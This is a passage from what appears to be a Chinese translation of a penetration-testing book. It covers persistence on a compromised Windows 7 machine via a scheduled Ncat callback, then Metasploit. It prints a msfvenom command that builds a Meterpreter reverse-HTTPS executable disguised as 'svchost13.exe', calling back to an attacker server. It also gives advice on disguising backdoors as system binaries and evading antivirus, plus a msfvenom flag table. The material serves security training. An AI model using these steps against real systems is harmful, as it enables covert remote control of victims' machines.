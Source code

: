 ![](img/e1b49e7f-fac4-48f5-9702-2df3bcf23a15.png)

我们现在已经连接到我们黑客入侵的 Windows 7 机器，具有完整的管理员访问权限，这个漏洞利用将在每天下午 5:00 准备好使用，而无需对网络进行进一步攻击。

警告！

一个真正的攻击者会将 Ncat 的名称更改为更模糊和难以在您的文件系统中发现的名称。小心您的系统上存在两个`calc.exe`或`notepad.exe`。一个在奇怪的地方很可能是 Ncat 或我们接下来要构建的另一种类型的漏洞利用。

# 使用 Metasploit 打电话回家

好吧，那是老派的方法。现在，让我们使用 Metasploit 的工具来做同样的事情。我们将在`//rogue3`上加载 Metasploit，我们邪恶的服务器，让我们的受害者机器连接到该机器上的 Meterpreter shell。我们将从之前的内部黑客中构建和上传这个漏洞利用。除了`msfconsole`之外，我们还将使用 Metasploit 工具包中的其他工具。Metasploit 配备了一个独立的应用程序来构建自定义漏洞和 shellcode。这个工具叫做`msfvenom`，我们将使用它来构建一个漏洞利用。完全使用`msfvenom`可能是一个完整的章节，超出了本书的范围，所以在这里我们将使用最常见的标志来生成我们的可执行文件来构建一个反向 HTTP 漏洞利用。我们将通过运行以下命令来构建漏洞利用：

```
msfvenom -a x86 -platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe  
```

MSFvenom 是一个强大且可配置的工具。MSFvenom 具有构建自定义漏洞的能力，可以绕过任何防病毒软件。防病毒软件通过查看文件的签名来工作。MSFvenom 具有编码漏洞的能力，使得防病毒软件无法检测到它。这是隐藏漏洞的情况，就像另一个常见的可执行文件，比如记事本 MSFvenom，可以向可执行文件添加 NOP 或空代码，使其大小与原始文件相同。很可怕，不是吗？

以下表格显示了标志的列表：

| 用法： |
| --- |
| `/opt/metasploit/apps/pro/msf3/msfvenom [options] <var=val>` |
| **选项** | **长选项** | **变量** | **注释** |
| `-p` | `--payload` | `<payload>` | 要使用的负载。指定`-`或`stdin`以使用自定义负载 |
| `-l` | `--list` | `[module_type]` | 列出模块类型示例：负载、编码器、NOP、全部 |
| `-n` | `--nopsled` | `<length>` | 在负载上添加一个大小为[length]的 nopsled |
| `-f` | `--format` | `<format>` | 输出格式（使用`--help-formats`列出） |
| `-e` | `--encoder` |  | 要使用的编码器 |
| `-a` | `--arch` | `<architecture>` | 要使用的架构 |
|  | `--platform` | `<platform>` | 负载的平台 |
| `-s` | `--space` | `<length>` | 结果负载的最大大小 |
| `-b` | `--bad-chars` | `<list>` | 要避免的字符列表；示例：`\x00\xff` |
| `-i` | `--iterations` | `<count>` | 编码负载的次数 |
| `-c` | `--add-code` | `<path>` | 指定要包含的额外 win32 shellcode 文件 |
| `-x` | `--template` | `<path>` | 指定要用作模板的自定义可执行文件 |
| `-k` | `--keep` |  | 保留模板行为，并将负载注入为新线程 |
| `-o` | `--options` |  | 列出负载的标准选项 |